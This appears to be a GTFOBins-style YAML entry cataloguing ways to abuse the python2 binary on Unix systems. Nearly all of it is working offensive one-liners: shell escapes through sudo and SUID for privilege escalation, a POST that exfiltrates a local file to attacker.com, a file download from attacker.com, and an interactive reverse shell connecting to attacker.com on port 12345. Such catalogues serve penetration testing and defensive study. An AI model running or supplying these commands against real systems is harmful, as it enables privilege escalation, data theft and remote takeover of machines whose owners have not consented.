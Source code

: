 ```yaml
---
functions:
  execute-interactive:
    - code: python2 -c 'import os; os.system("/bin/sh")'
  sudo-enabled:
    - code: sudo python2 -c 'import os; os.system("/bin/sh")'
  suid-enabled:
    - code: ./python2 -c 'import os; os.system("/bin/sh -p")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python2 -c 'import urllib as u,urllib2 as u2,os.environ as e; u2.urlopen(u2.Request(e["URL"],u.urlencode({"d":open(e["LFILE"]).read()})))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python2 -m SimpleHTTPServer $LPORT
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=where_to_save
        python2 -c 'import urllib as u,os.environ as e;u.urlretrieve(e["URL"], e["LFILE"])'
  reverse-shell-interactive:
    - description: Run <code>socat file:`tty`,raw,echo=0 tcp-listen:12345</code> on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python2 -c 'import sys,socket,os,pty;s=socket.socket(); s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("/bin/sh")'
  file-read:
    - code: python2 -c 'open("file_to_read").read()'
  file-write:
    - code: python2 -c 'open("file_to_write","w+").write("data")'
  load-library:
    - code: python2 -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
---
```

